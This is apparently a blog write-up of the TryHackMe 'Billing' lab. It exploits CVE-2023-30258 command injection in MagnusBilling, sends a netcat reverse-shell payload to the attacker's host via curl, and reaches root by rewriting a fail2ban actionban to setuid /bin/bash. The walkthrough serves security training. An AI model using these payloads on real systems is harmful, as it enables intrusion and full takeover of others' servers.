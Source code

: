 ```yaml
---
title: "TryHackMe: Billing"
author: jaxafed
categories: [TryHackMe]
tags: [web, command injection, sudo, fail2ban]
render_with_liquid: false
media_subpath: /images/tryhackme_billing/
image:
  path: room_image.webp
---
```


**Billing** was a straightforward room where we exploited a command injection vulnerability in the **MagnusBilling** web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the **fail2ban-server**, we successfully escalated to the **root** user and completed the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/billing){: .center }

## Initial Enumeration

### Nmap Scan

We start with an **`nmap`** scan:

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.160.86
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp    open     http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.10.160.86/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp  open     mysql    MariaDB (unauthorized)
5038/tcp  open     asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are four open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

### Web 80

Visiting `http://10.10.160.86/` redirects us to `/mbilling/`, where we find the **MagnusBilling** application running.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

By checking some common files for the application, we can identify the **MagnusBilling** version as `7.x.x` from the `README.md` file.

![Web 80 Mbilling Readme](web_80_mbilling_readme.webp){: width="1200" height="600"}

## Shell as asterisk

Searching for vulnerabilities in **MagnusBilling 7**, we can discover it is vulnerable to **`CVE-2023-30258`**, an unauthenticated command injection vulnerability. A detailed advisory for this vulnerability with a proof-of-concept (PoC) is available [here](https://eldstal.se/advisories/230327-magnusbilling.html).

![Magnusbilling Command Injection Poc](magnusbilling_command_injection_poc.webp){: width="900" height="600"}

Reviewing the [vulnerable code](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) referenced in the advisory shows that if the `democ` GET parameter is provided (and is longer than 5 characters) in a request to the `/lib/icepay/icepay.php` endpoint, a command is built as:

```php
"touch " . $_GET['democ'] . '.txt'
```

This string is then passed to the `exec()` function, making the code vulnerable to command injection.

![Magnusbilling Vulnerable Code](magnusbilling_vulnerable_code.webp){: width="700" height="300"}

Testing the PoC from the advisory with `sleep` commands confirms the vulnerability, as the server consistently takes longer than the specified duration in our `sleep` commands to respond, indicating that they are being executed.

```console
$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+2;'

real    2.19s

$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'

real    5.27s
```

Using this vulnerability, we can send a command injection payload with a reverse shell command via **`curl`** to obtain a shell:

```console
$ curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.64.79 443 >/tmp/f;'
```
{: .wrap }

Checking our listener, we see a shell as the **asterisk** user and can read the user flag at `/home/magnus/user.txt`:

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.160.86] 41006
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ export TERM=xterm
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

asterisk@Billing:/var/www/html/mbilling/lib/icepay$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ wc -c /home/magnus/user.txt
38 /home/magnus/user.txt
```

## Shell as root

Checking the **sudo** privileges for the **asterisk** user, we find that the user is allowed to run the `fail2ban-client` command as **root** without a password:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**fail2ban-client** is a command-line interface that allows us to interact with, configure, and control the **fail2ban-server**. To give a brief explanation, **fail2ban** is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, **fail2ban-server** is running as **root**, as expected.

```console
asterisk@Billing:/$ ps -aux | grep fail
root         539  0.2  1.4 1167416 27992 ?       Ssl  13:10   0:08 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

Checking the status of the **fail2ban-server**, we see 8 active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```
{: .wrap }

`Jails` are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

Checking the `/etc/fail2ban/jail.local` file, we can see an example of a `jail`:

```console
[asterisk-iptables]
enabled  = true
filter   = asterisk
action   = iptables-allports[name=ASTERISK, port=all, protocol=all]
logpath  = /var/log/asterisk/messages
maxretry = 5
bantime = 600
```

From the configuration, among other things, we see that the `asterisk-iptables` jail monitors the `/var/log/asterisk/messages` log file and checks for patterns defined in the `asterisk` filter (`/etc/fail2ban/filter.d/asterisk.conf`). When those patterns are matched, it performs the appropriate action defined in the `iptables-allports` action (`/etc/fail2ban/action.d/iptables-allports.conf`).

To use **fail2ban** to execute commands as **root**, we can modify one of the actions defined for the jail, such as the action to perform (command to execute) when banning an IP. 

First, we retrieve the currently set actions for one of the active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```

Next, we modify the command for the `actionban` in the `iptables-allports-ASTERISK` action, which is executed when banning an IP for the **asterisk-iptables** jail. We set it to run our command that sets the **setuid** bit on **/bin/bash** instead, as follows:

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
chmod +s /bin/bash
```
{: .wrap }

Now, we can manually ban an IP address for the **asterisk-iptables** jail, which will execute the command for `actionban` defined in the `iptables-allports-ASTERISK` action.

```console
asterisk@Billing:/$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
1

asterisk@Billing:/$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Finally, with the **setuid** bit set on the **/bin/bash** binary, we can use it to obtain a shell and read the root flag at `/root/root.txt` to complete the room.

```console
asterisk@Billing:/$ /bin/bash -p
bash-5.1# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@Billing:/# id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
root@Billing:/# wc -c /root/root.txt
38 /root/root.txt
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>